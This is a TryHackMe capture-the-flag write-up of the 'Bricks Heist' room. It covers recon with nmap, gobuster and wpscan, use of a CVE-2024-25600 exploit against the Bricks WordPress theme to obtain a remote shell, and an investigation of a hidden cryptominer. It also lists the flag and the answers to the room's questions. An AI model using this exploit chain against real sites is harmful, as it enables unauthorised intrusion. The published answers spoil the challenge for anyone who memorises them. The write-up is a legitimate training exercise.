 
# Bricks Heist - TryHackMe Writeup

This is a writeup for the "Bricks Heist" challenge on TryHackMe, found [here](https://tryhackme.com/room/tryhack3mbricksheist). The scenario involves Brick Press Media Co. losing server access due to a compromise. My goal was to hack back in, recover a hidden file, and investigate a cryptomining operation. Below are my steps—mistakes included—along with tools, commands, and findings.

---

## Steps

### 1. Setup Hosts File
- Edited `/etc/hosts` to map `bricks.thm` to the target IP:
  ```bash
  cd /etc/
  nano hosts
  ```
- Added this line below existing entries:
  ```
  127.0.0.1   localhost
  127.0.0.1   vnc.tryhackme.tech
  127.0.1.1   tryhackme.lan   tryhackme
  10.10.14.5  bricks.thm
  ```

### 2. Initial Reconnaissance
- Scanned the target with `nmap`:
  ```bash
  nmap -A -sC -sV [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sC -sV 10.10.14.5
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, script scanning, traceroute).
  - `-sC`: Run default scripts for additional info.
  - `-sV`: Detect service versions.
- Results:
  ```
  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
  80/tcp   open  http     WebSockify Python/3.8.10
  443/tcp  open  ssl/http Apache httpd (WordPress 6.5)
  3306/tcp open  mysql    MySQL (unauthorized)
  ```
- Noted SSH, HTTP (WebSockify and WordPress), and MySQL.

### 3. Web Enumeration
- Tried `gobuster`:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [PATH TO WORDLIST]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.14.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
- Got an error: `405 (Length: 472)` status matched non-existent URLs, halting the scan.
- **Fix**: Added `-x 405 --exclude-length 472` to ignore 405 responses and their specific content length:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [PATH TO WORDLIST] -x 405 --exclude-length 472
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.14.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 405 --exclude-length 472
  ```
- Still found nothing useful.

- Moved to wpscan and scanned the WordPress site :
  ```bash
  wpscan --url https://bricks.thm
  ```
- Failed with: `SSL peer certificate or SSH remote key was not OK`.
- **Fix**: Added `--disable-tls-checks` to bypass SSL verification:
  ```bash
  wpscan --url https://bricks.thm --disable-tls-checks
  ```
- Flags explained:
  - `--url`: Target WordPress URL.
  - `--disable-tls-checks`: Ignore SSL certificate errors.
- Results:
  - WordPress version: 5.7
  - Theme: `bricks` (v1.9.5)
  - `robots.txt`: `/wp-admin/` disallowed.
  - No plugins or backups found.

### 4. Exploit WordPress Vulnerability
- Searched for "wordpress bricks 1.9.5 exploit" and found CVE-2024-25600, but the original exploit failed.
- Used my modified version from [GitHub](https://github.com/so1icitx/CVE-2024-25600):
  ```bash
  python3 exploit.py -u https://bricks.thm
  ```
- Flags explained:
  - `-u`: Target URL.
- Output:
  ```
  [*] Nonce found: 37bff0ff08
  [+] https://bricks.thm is vulnerable to CVE-2024-25600: apache
  [!] Shell ready! Type commands (exit to quit)
  ```
- Gained a shell.

### 5. Find the Hidden File
- Listed files in the web root:
  #### p.s started using '' because # is treated as a comment :p
  ```bash
  '# ls'
  ```
- Saw `650c844110baced87e1606453b93f22a.txt` among WordPress files.
- Read it:
  ```bash
  '# cat 650c844110baced87e1606453b93f22a.txt'
  ```
- Content: `THM{fl46_650c844110baced87e1606453b93f22a}`

### 6. Investigate Suspicious Process
- Checked running services:
  ```bash
  '# systemctl | grep running'
  ```
- Spotted `ubuntu.service` running `/lib/NetworkManager/nm-inet-dialog`, which seemed odd.
- Viewed its config:
  ```bash
  '# systemctl cat ubuntu.service'
  ```
- Output:
  ```
  [Unit]
  Description=TRYHACK3M
  [Service]
  Type=simple
  ExecStart=/lib/NetworkManager/nm-inet-dialog
  Restart=on-failure
  [Install]
  WantedBy=multi-user.target
  ```
- Suspicious process: `nm-inet-dialog`
- Service name: `ubuntu.service`

### 7. Locate Miner Log File
- Explored `/lib/NetworkManager/`:
  ```bash
  '# ls /lib/NetworkManager/'
  ```
- Found `inet.conf`.
- Checked the first 20 lines (file was large):
  ```bash
  '# head -n 20 /lib/NetworkManager/inet.conf'
  ```
- Saw mining logs with an encoded string.

### 8. Decode Miner Wallet Address
- Extracted the encoded string:
  ```
  5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
  ```
- Used CyberChef’s “Magic” function, which detected hex encoding and decoded it to two wallet addresses:
  - `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa` (valid)
  - `bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa` (invalid)
- Validated on [Blockchain.com Explorer](https://www.blockchain.com/explorer/).
- Wallet address: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

### 9. Identify Threat Group
- Checked the wallet’s first transaction on Blockchain.com, linked to `bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r`.
- Googled the address and found references to the LockBit ransomware group.
- Threat group: `LockBit`

---

## Answers to Challenge Questions
1. **Content of the hidden .txt file**: `THM{fl46_650c844110baced87e1606453b93f22a}`
2. **Name of the suspicious process**: `nm-inet-dialog`
3. **Service name affiliated with the suspicious process**: `ubuntu.service`
4. **Log file name of the miner instance**: `inet.conf`
5. **Wallet address of the miner instance**: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
6. **Threat group involved**: `LockBit`

---

## Tools Used
- `nmap`: Network scanning.
- `gobuster`: Directory enumeration (with fix for 405 errors).
- `wpscan`: WordPress scanning (with TLS workaround).
- `python3 exploit.py`: Custom CVE-2024-25600 exploit.
- CyberChef: Decoding hex strings.
- [Blockchain.com Explorer](https://www.blockchain.com/explorer/): Wallet analysis.

---
